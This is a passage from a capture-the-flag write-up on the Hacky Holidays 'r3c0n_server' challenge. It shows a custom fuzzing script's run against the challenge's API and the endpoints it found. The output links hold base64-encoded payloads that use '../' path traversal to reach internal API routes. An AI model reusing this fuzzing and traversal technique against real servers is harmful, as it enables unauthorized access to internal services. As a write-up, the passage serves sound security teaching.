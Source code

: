 Time to whip up a simple fuzzer that will does the fuzzing for us! My fuzzer can be found [here](#enum-script) (look at the `fuzz_api()` function). After fuzzing with the `objects.txt` from [seclists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/api/objects.txt), the results obtained were:

> False responses contain: `0`, `400`, `404` status codes

```bash
$ python r3c0n-server-exploit.py /usr/share/seclists/Discovery/Web-Content/api/objects.txt 

What to fuzz?
Options [1] and [2] require a valid wordlist as an argument!

[1] API
[2] API Parameters
[3] Username & Password
1

[+] Discovered end-point(s): 
  [+] ping
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3BpbmciLCJhdXRoIjoiOTMzZTJkMzk5NWE4MmIzZmQyODE1NWQyMjg3MDk1M2YifQ==

  [+] user
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXIiLCJhdXRoIjoiYmZiNmRkMDRlNjZlODU1NjRkZWJiYTNlN2IyMjJlMzQifQ==
```

Seems like the APIs `/api/ping` and `/api/user` are valid. However, visiting these pages brings up yet another error:

<p align="center">
  <img src="screenshots/r3c0n-server-10.png" style="width:90%; border:0.5px solid black">
</p>
